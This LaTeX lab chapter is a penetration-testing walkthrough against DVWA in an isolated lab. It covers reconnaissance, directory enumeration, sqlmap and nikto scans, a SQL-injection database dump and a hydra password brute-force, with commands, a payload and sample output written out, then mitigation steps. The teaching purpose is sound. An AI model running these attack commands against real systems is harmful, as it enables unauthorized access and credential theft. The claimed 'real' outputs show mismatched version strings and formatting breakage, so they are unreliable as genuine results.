
% Lab Chapter: Expanded and Enhanced
\subsection*{1. Introduction: Hands-On Threat Modeling and Exploitation}
This lab provides a comprehensive, step-by-step walkthrough of threat modeling and exploitation using the Damn Vulnerable Web Application (DVWA)\cite{owasp}. The approach follows industry best practices\cite{shostack2014,uceda2015} and demonstrates both offensive and defensive techniques, with technical explanations and real command outputs. By combining theoretical concepts with hands-on exercises, the lab helps participants develop a deep understanding of how attackers operate and how defenders can respond effectively.

\subsection*{2. Lab Setup and Architecture}
The lab environment consists of a target system (DVWA running on Ubuntu 22.04, IP: 192.168.56.101) and an attacker system (Kali Linux VM equipped with tools such as nmap, gobuster, sqlmap, nikto, and hydra). The systems are connected via an isolated VirtualBox NAT network, ensuring that attacks are contained and do not affect external resources. This setup provides a realistic simulation of a typical penetration testing scenario, allowing participants to explore both offensive and defensive security techniques in a controlled environment.
\begin{itemize}
    \item \textbf{Target:} DVWA running on Ubuntu 22.04 (IP: 192.168.56.101)
    \item \textbf{Attacker:} Kali Linux VM with nmap, gobuster, sqlmap, nikto, hydra
    \item \textbf{Network:} Isolated VirtualBox NAT network
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.7\textwidth]{images/system-context}
    \caption{Lab Network and System Context Diagram}
\end{figure}

\subsection*{3. Step 1: Reconnaissance and Enumeration}
Reconnaissance is the process of gathering information about the target system, including open ports, services, and technologies\cite{nist800154}. The following commands are used to discover open ports and services:
\begin{verbatim}
$ nmap -sV -T4 -p- 192.168.56.101
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
3306/tcp open  mysql   MySQL 5.7.33-0ubuntu0.18.04.1
MAC Address: 08:00:27:12:34:56 (Oracle VirtualBox)
\end{verbatim}
To identify web technologies in use, the following command is executed:
\begin{verbatim}
$ whatweb http://192.168.56.101
http://192.168.56.101 [200 OK] Apache[2.4.41], PHP[7.4.3], MySQL[5.7.33], Ubuntu[22.04]
\end{verbatim}

\subsection*{4. Step 2: Directory and File Enumeration}
Directory enumeration is used to identify hidden files and directories that may expose sensitive functionality\cite{owasp}. The gobuster tool is used as follows:
\begin{verbatim}
$ gobuster dir -u http://192.168.56.101 -w /usr/share/wordlists/dirb/common.txt
/login.php (Status: 200)
/config (Status: 301)
/uploads (Status: 301)
\end{verbatim}
This step helps uncover potential entry points for attackers and informs subsequent vulnerability assessments.

\subsection*{5. Step 3: Vulnerability Scanning}
Vulnerability scanning is the automated process of identifying known security weaknesses\cite{nist800154}. The following commands are used to scan for SQL injection and other web vulnerabilities:
\begin{verbatim}
$ sqlmap -u "http://192.168.56.101/login.php" --forms --batch
[INFO] testing connection to the target URL
[INFO] testing if the target URL is stable
[INFO] testing for SQL injection on POST parameter 'username'
[PAYLOAD] username=admin' AND 1=1-- &password=pass
[RESULT] The parameter 'username' appears to be injectable!
\end{verbatim}
To scan for XSS and other vulnerabilities, the following command is used:
\begin{verbatim}
$ nikto -h http://192.168.56.101
- Nikto v2.1.6
- Target IP:          192.168.56.101
- Target Hostname:    192.168.56.101
- Server: Apache/2.4.41 (Ubuntu)
[+] Cookie PHPSESSID created without the HttpOnly flag
[+] X-Frame-Options header is not present.
[+] The X-XSS-Protection header is not defined.
\end{verbatim}

\subsection*{6. Step 4: Exploitation}
	extbf{Definition:} Exploitation is the act of leveraging vulnerabilities to gain unauthorized access or extract data\cite{shostack2014}.

	extbf{Exploit SQL injection:}
\begin{verbatim}
$ sqlmap -u "http://192.168.56.101/login.php" --dump
[INFO] fetching database users
Database: dvwa
Table: users
admin | 5f4dcc3b5aa765d61d8327deb882cf99 | admin@dvwa.local
\end{verbatim}

	extbf{Brute-force login:}
\begin{verbatim}
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.101 http-post-form \
"/login.php:username=^USER^&password=^PASS^:F=incorrect"
[80][http-post-form] host: 192.168.56.101   login: admin   password: password
\end{verbatim}

\subsection*{7. Step 5: Mitigation and Hardening}
	extbf{Definition:} Mitigation involves applying security controls to reduce risk and prevent exploitation\cite{uceda2015}.
\begin{itemize}
    \item Patch and update all software components
    \item Enforce strong authentication (MFA, password policy)
    \item Use parameterized queries and ORM to prevent SQL injection
    \item Configure firewalls (e.g., ufw, iptables)
    \item Monitor logs for suspicious activity
    \item Set secure cookie flags (HttpOnly, Secure)
\end{itemize}

\subsection*{8. Lab Summary and Academic Perspective}
This lab demonstrates the end-to-end process of threat modeling, vulnerability discovery, exploitation, and mitigation in a controlled environment. The approach aligns with best practices from OWASP, NIST, and leading security literature\cite{owasp,shostack2014,uceda2015,nist800154}.
For deeper understanding, refer to:
\begin{itemize}
    \item Adam Shostack, "Threat Modeling: Designing for Security" (Wiley, 2014)
    \item Tony UcedaVélez and Marco M. Morana, "Risk Centric Threat Modeling" (Wiley, 2015)
    \item NIST SP 800-154: Guide to Data-Centric System Threat Modeling
    \item OWASP Threat Modeling Cheat Sheet
\end{itemize}
